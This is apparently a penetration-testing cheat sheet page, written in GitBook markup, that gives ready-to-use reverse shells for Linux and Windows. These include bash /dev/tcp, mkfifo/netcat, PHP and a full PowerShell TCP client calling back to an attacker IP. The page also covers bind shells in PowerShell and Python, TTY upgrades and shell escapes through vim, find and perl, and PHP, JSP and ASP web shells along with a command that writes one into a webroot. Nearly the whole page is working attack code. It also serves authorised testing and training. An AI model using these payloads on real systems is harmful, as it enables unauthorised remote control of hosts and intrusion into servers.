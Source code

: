 ```yaml
---
description: >-
  This is a collection of few useful scripts for creating reverse, bind and web
  shells.
---
```


# Setting up Shells

## Reverse Shells:

### Preparing the shell script:

#### Linux target:

{% tabs %}
{% tab title="Bash" %}
```bash
$ bash -c 'bash -i >& /dev/tcp/1.1.1.1/PORT 0>&1'
# OR 
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENEING PORT> >/tmp/f
```
{% endtab %}

{% tab title="PHP" %}
```php
# To be saved in a .php file.
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.1.1.1 <LISTENEING PORT> >/tmp/f"); ?>
```
{% endtab %}
{% endtabs %}

Other resources online will be helpful in other cases if we need another programming language to execute the script/code not only bash or PHP or even if the payloads above don't work.

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#tools" %}

{% embed url="https://www.revshells.com/" %}

{% embed url="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

#### Windows Target:

```powershell
target-host> powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('1.1.1.1',PORT);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

### Setting up a listener on our attacking machine:

```bash
attacking-machine$ nc -lvnp 1234
   -l Listen mode.
   -v Verbose mode.
   -n Disable DNS resolution and only connect from/to IPs, to speed up the connection.
   -p 1234 Port number netcat is listening on.
```

#### Results of the injection:

```bash
attacker@attacking-machine$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [1.1.1.1] from (UNKNOWN) [10.10.10.10] 41572

victim@target-host> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

{% hint style="success" %}
<mark style="color:green;">We successfully got a connection back now it's time to make it more stable and efficient.</mark>
{% endhint %}

### Interactive Shells

In order to upgrade our shell to a fully TTY let's follow these steps:

#### Full TTY

```bash
victim@target$ python3 -c 'import pty; pty.spawn("/bin/bash")'
victim@target-host$ ^Z
attacker@attacking-machine$ stty raw -echo && fg
[Enter]
[Enter]
victim@target-host$
# Terminal size :
victim@target-host$ export TERM=xterm-256color
victim@target-host$ stty rows 67 columns 318


Raw mode: This means that characters are delivered to the application as soon as 
they are typed, without any line buffering or special interpretation (such as Ctrl+C for interrupt).
-echo: By turning off echoing, characters typed by the user won't be displayed on the screen.
```

{% hint style="success" %}
<mark style="color:green;">Now we can use the full terminal features.</mark>
{% endhint %}

{% hint style="warning" %}
Intuitively, since we're executing commands on a target machine, all of our work highly and directly  depends on the permissions of the files/binaries we're aiming to execute. So?

sudo -l your way in in easy boxes :smile:
{% endhint %}

#### Bash

```bash
victim@target$/bin/sh -i
sh: no job control in this shell
sh-4.2$
```

#### Perl

```bash
victim@target$perl —e 'exec "/bin/sh";'

#To be run inside of a perl script
victim@target$perl: exec "/bin/sh"; 
```

#### Ruby

```bash
victim@target$ruby: exec "/bin/sh"
```

#### Lua

```bash
victim@target$lua: os.execute('/bin/sh')
```

#### Find

```bash
victim@target$find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
#Example:
find . -exec /bin/sh \; -quit
```

#### Vim

```bash
victim@target$vim -c ':!/bin/sh'
```

```bash
victim@target$vim
:set shell=/bin/sh
:shell
```

## Bind shells:

### Listener on the target machine:

#### Linux Target:

```bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

#### Windows target:

{% tabs %}
{% tab title="PowerShell" %}
```powershell
atrget-host> powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
{% endtab %}

{% tab title="Python" %}
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
{% endtab %}
{% endtabs %}

### Connecting to the target:

```bash
$ nc 10.10.10.10 1234
# Successful connection a shell is now open:
victim@target-host> id # Our command, since this is a windows target we should inject a cmdlet
uid=33(www-data) gid=33(www-data) groups=33(www-data) # server response
```

{% hint style="success" %}
We <mark style="color:green;">successfully</mark> got a remote shell on the target machine. If it isn't an unstable and "featureless" terminal, we can upgrade to a full TTY as in the [Reverse shells paragraph](setting-up-shells.md#id-1.-reverse-shells).
{% endhint %}

## Web Shells

For more Web Shell techniques and scripts, have a look at [this](setting-up-shells.md#web-shells).

### Preparing the file

{% tabs %}
{% tab title="PHP" %}
```php
<?php system($_REQUEST["cmd"]); ?>
```
{% endtab %}

{% tab title="Java" %}
```java
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
{% endtab %}

{% tab title="ASP" %}
```aspnet
<% eval request("cmd") %>
```
{% endtab %}
{% endtabs %}

### Injecting to the webroot

<table><thead><tr><th>Web Server</th><th align="center">Default Webroot</th><th data-hidden align="center"></th></tr></thead><tbody><tr><td>Apache</td><td align="center">/var/www/html/</td><td align="center"></td></tr><tr><td>Nginx</td><td align="center">/usr/local/nginx/html/</td><td align="center"></td></tr><tr><td>IIS</td><td align="center">c:\inetpub\wwwroot\</td><td align="center"></td></tr><tr><td>XAMPP</td><td align="center">C:\xampp\htdocs\</td><td align="center"></td></tr></tbody></table>

We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a <mark style="color:red;">**Linux host running Apache**</mark>, we can write a **PHP** shell with the following command:

```bash
$ echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

### Execution

1. Visit the shell.php page on the compromised website, and use `?cmd=id` to execute the `id` command:\
   `http://SERVER_IP:PORT/shell.php?cmd=id`\
   We'll get the result of the `id` command on the web page!&#x20;
2. Or Use `curl` command:`$ curl http://SERVER_IP:PORT/shell.php?cmd=id`

